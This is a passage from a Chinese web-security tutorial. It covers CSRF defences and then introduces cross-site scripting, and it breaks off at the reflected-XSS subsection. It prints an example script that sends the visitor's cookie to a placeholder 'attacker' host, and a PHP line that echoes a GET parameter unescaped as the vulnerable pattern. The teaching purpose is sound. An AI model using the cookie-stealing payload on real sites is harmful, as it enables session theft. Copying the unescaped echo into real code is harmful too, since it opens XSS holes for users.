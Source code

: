 通过请求头中的referer字段判断请求的来源，但这种方式不太保险，因为referer有可能被伪造。

3) 验证码

在一些很敏感的curd操作中，可以做验证码校验。在现有技术下，破解一个验证码是有一定难度的，比如12306的地狱级验证码。但是考虑到用户体验，这种较为安全的校验方式需要合理地使用。

4）其他预防手段：
- 尽量不要在页面的链接中暴露用户隐私信息.
- 尽量使用post进行表单提交.
- 避免全站通用的cookie，严格设置cookie的域.

>现在业界内大多数的防csrf的方案都是token+referer。但token是在cookie没有被盗取的前提下才有安全性，而referer也并不难伪造，所以，即使做好了csrf，如果网站存在XSS漏洞，被攻击者盗用了cookie信息，那么，token+referer的防范手段将形同虚设。

### XSS

1. 概念：

跨站脚本攻击（XSS，Cross-site scripting）是最常见和基本的攻击Web网站的方法。攻击者可以在网页上发布包含攻击性代码的数据，当浏览者看到此网页时，特定的脚本就会以浏览者用户的身份和权限来执行。通过XSS可以比较容易地修改用户数据、窃取用户信息以及造成其它类型的攻击。

2. 攻击原理:

XSS的本质就是在用户的浏览器执行一段恶意的JS代码，其攻击方式大致可以分为3类，我们假设攻击代码是为了盗取我们的cookie信息：

```javascript
<script>
window.location='http://attacker/?cookie='+document.cookie;
</script>
```

而我们服务器和前端未做XSS防范，直接拿取链接中的参数，显示到页面：

```php
<?php

 echo ‘Hi,’ . $_GET[‘name’];

?>
```

1）反射型：
反射型是指恶意代码来自用户的请求。

![](./images/secure-2.png)
